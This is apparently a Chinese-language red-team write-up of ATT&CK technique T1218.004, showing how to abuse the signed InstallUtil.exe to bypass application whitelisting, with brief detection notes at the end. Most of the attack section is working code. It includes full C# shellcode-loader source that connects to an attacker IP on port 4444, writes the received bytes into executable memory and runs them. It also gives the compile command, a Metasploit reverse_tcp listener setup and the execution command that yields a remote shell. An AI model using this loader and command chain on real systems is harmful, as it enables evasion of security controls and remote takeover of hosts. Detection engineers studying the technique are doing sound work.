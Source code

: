 # T1218-004-win-基于白名单Installutil.exe执行payload

## 来自ATT&CK的描述

命令行实用程序InstallUtil可用于通过执行.NET二进制文件中指定的特定安装程序组件来安装和卸载资源。

InstallUtil位于Windows系统上的.NET目录中：

C:\Windows\Microsoft.NET\Framework\v\InstallUtil.exe

C:\Windows\Microsoft.NET\Framework64\v\InstallUtil.exe

InstallUtil.exe由Microsoft进行数字签名。攻击者可能会使用InstallUtil通过受信任的Windows实用程序来代理执行代码。攻击者还可以用Installutil来绕过进程白名单，方法是在二进制文件中使用属性，这些属性执行用属性[System.ComponentModel.RunInstaller(true)]修饰的类。

## 测试案例

说明：Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### x64 CS

```cs
using System;using System.Net;using System.Linq;using System.Net.Sockets;using System.Runtime.InteropServices;using System.Threading;using System.Configuration.Install;using System.Windows.Forms;
public class GQLBigHgUniLuVx {
public static void Main()
{
while(true)
{{ MessageBox.Show("doge"); Console.ReadLine();}}
}
 }

 [System.ComponentModel.RunInstaller(true)]
 public class esxWUYUTWShqW : System.Configuration.Install.Installer
 {
 public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
 {
 jkmhGrfzsKQeCG.LCIUtRN();
 }

 }
 public class jkmhGrfzsKQeCG
 { [DllImport("kernel")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
 [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
 [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
 static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
 IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
 Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

 try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
 catch { return null;}
 byte[] UmquAHRnhhpuE = new byte[4];
 XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
 int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE,0);
 byte[] qaYyFq = new byte[kFVRSNnpj +5];
 int SRCDELibA =0;
 while(SRCDELibA < kFVRSNnpj)
 { SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA +5,(kFVRSNnpj - SRCDELibA)<4096 ? (kFVRSNnpj - SRCDELibA) : 4096,0);}
 byte[] TvvzOgPLqwcFFv =BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
 Array.Copy(TvvzOgPLqwcFFv,0, qaYyFq,1,4); qaYyFq[0]=0xBF;
 return qaYyFq;}
 static void cmMtjerv(byte[] HEHUjJhkrNS) {
 if(HEHUjJhkrNS !=null) {
 UInt32 WcpKfU = VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
 Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
 IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
 UInt32 wdjYKFDCCf =0;
 IntPtr XVYcQxpp = IntPtr.Zero;
 UhxtIFnlOQatrk = CreateThread(0,0, WcpKfU, XVYcQxpp,0, ref wdjYKFDCCf);
 WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF); }}
 public static void LCIUtRN() {

byte[] IBtCWU =null; IBtCWU = ErlgHH("192.168.126.146",4444);
cmMtjerv(IBtCWU);
} }

```

#### 编译payload

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe  /unsafe C:\Users\Administrator\Desktop\a\installutil.cs
```

![编译payload](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20220502155159117.png)

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

![监听](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20220502155203457.png)

#### 执行payload

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```

#### 反弹shell

![执行payload](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200413152353294.png)

## 测试留痕

```bash
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
```

![日志留痕](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20220502155214847.png)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-004

<https://attack.mitre.org/techniques/T1218/004/>

基于白名单Installutil.exe执行payload

<https://micro8.gitbook.io/micro8/contents-1/71-80/72-ji-yu-bai-ming-dan-installutil.exe-zhi-hang-payload-di-er-ji>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
